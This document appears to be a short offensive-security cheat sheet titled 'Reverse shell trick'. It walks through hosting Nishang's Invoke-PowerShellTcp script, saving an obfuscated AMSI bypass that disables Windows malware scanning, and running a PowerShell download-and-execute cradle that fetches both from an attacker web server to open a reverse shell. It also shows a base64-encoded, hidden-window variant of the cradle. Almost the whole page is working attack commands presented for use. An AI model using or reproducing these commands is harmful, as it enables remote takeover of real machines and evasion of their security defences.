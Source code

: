# Reverse shell trick

1. Create a webserver directory to host some files.

```
mkdir webserver
```

2\. Download Invoke-PowerShellTCP from Nishang in this directory.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

3\. Save a amsi bypass in amsi.txt in this directory.

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

4\. Add the following to the bottom of Invoke-PowerShellTcp.ps1 so it executes the reverse shell after downloading the script and change the IP and PORT.

```
Invoke-PowershellTcp -Reverse -IPAddress <IP> -Port <PORT>
```

5\. Create a webserver from the webserver directory

```
python3 -m http.server 8090
```

6\. Use the following download and execute cradle to create a reverse shell, change the IP:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/Invoke-PowerShellTcp2.ps1')
```

It is possible to make it a bit easier to get command execution using the following technique, need to be executed in PowerShell:

```
$str = 'powershell iex (New-Object Net.WebClient).DownloadString("http://<IP>:8090/amsi.txt"); iex (New-Object Net.WebClient).DownloadString("http://<IP>:8090/Invoke-PowerShellTcp2.ps1")'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip
powershell.exe -w hidden -enc <BASE64 STRING>
```











